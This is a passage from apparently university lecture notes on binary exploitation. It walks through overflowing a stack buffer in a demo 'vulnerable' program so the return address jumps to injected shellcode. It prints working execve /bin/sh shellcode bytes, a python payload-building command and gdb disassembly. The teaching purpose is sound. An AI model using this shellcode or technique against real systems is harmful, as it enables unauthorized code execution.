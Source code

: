 To make use of this exploit and have it execute our shell code, we need
to overwrite the return address such that it jumps into our shell code.
We have a couple of ways to do this, and we will now enumerate some that
do not work until we get to one that does.

In this attempt, we will send our shell code along with the exploit such
that we will jump to the start of the `buf` in the code. It will look
something like this:

``` {.example}
                   .-------------------------.
                   |                         |
                   v                         |
   ./vulnerable 5 <shell-code><padding><address-of-buf>
```

Once the exploit is complete, the overwritten return address will be the
address of the buffer, and thus we execute our shell code. To start, we
need to know how long our shell code is and we need to know the address
of the buffer.

To get the length of our shell code, we can use `printf` and `wc`

``` {.example}
user@si485H-base:demo$ ./hexify.sh ./execve_nonull 
\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ printf "`./hexify.sh ./execve_nonull`" | wc -c
37
```

To make things easier, I'm going to save the bytes of the shell code to
a file called `shell`.

``` {.example}
user@si485H-base:demo$ printf "`./hexify.sh ./execve_nonull`" > shell
user@si485H-base:demo$ wc -c shell 
37 shell
```

Next, I'm going to start up gdb to determine the address of `buf` using
our expected exploit length. I'll just start with 0xdeadbeef as the
address for a filler.

``` {.example}
(gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xef\xbe\xad\xde'"`

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xef\xbe\xad\xde'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
=> 0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>:    lea    eax,[ebp-0x2c]
   0x080484ec <+23>:    mov    DWORD PTR [esp],eax
   0x080484ef <+26>:    call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>:    jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>:    lea    edx,[eax+0x1]
   0x080484fc <+39>:    mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>:    lea    edx,[ebp-0x2c]
   0x08048502 <+45>:    mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>:    mov    DWORD PTR [esp+0x4],eax
```